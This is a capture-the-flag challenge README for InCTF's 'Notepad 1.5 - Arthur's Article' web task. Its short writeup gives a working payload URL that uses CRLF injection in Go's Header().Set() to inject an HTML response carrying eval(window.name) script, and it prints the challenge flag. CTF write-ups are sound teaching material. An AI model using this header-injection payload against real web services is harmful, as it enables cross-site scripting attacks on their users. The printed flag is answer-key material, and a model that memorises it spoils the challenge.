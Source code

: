 # Notepad 1.5 - Arthur's Article

### Challenge Description

Arthur Morgan was asked to retrieve an important article from Cornwall's computer. Help him steal it. 

### Challenge File
[Source](./Handout/arthursarticle.zip)

### Short Writeup

* Exploit CRLF in go's Header().Set() library to inject arbitrary html using the header name. 

* `http://chall.notepad15.gq/find?startsWith=asd&debug=2&A:asd%0AContent-Type:text/html%0A%0A%3Chtml%3E%3Cscript%3Eeval(window.name)%3C/script%3E`

### Author
[Az3z3l](https://twitter.com/Az3z3l)

### Flag
`inctf{red_dead_rezoday_ialmvwoawpwe}`

### Writeup

+ [blog.bi0s.in](https://blog.bi0s.in/2021/08/16/Web/notepad-inctf21/)
